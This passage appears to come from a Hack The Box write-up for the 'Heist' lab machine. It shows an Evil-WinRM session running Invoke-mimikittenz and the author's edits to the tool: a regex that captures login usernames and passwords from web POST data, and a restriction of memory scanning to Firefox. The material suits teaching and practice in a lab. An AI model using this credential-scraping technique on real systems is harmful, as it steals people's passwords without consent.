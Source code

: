      __    __  ____  ____   ____   ___ ___
    |  |__|  ||    ||    \ |    \ |   |   |
    |  |  |  | |  | |  _  ||  D  )| _   _ |
    |  |  |  | |  | |  |  ||    / |  \_/  |
    |  `  '  | |  | |  |  ||    \ |   |   |
     \      /  |  | |  |  ||  .  \|   |   |
      \_/\_/  |____||__|__||__|\_||___|___|


                               By: CyberVaca@HackPlayers

    [+] Invoke-Binary
    [+] Invoke-mimikittenz
    [+] l04d3r-LoadDll

    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
    ───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
    ───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
    ──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
    ▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
    ▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
    ▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
    ▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
    ─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
    ─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
    ──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
    ────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────
    *Evil-WinRM* PS C:\Users\Chase\Documents>



That's because I want to catch chase logging into Heist, not Gmail or
GitHub or any well known site. I'll create a copy of the `ps1` file, and
scroll to the bottom. I'll add a regex based on the Heist POST request:



        # HTB-Heist
        [mimikittenz.MemProcInspector]::AddRegex("Heist","login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=")



Also, I'll edit the line towards the end to tell it to just look at
firefox, removing IE and Chrome:



    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")
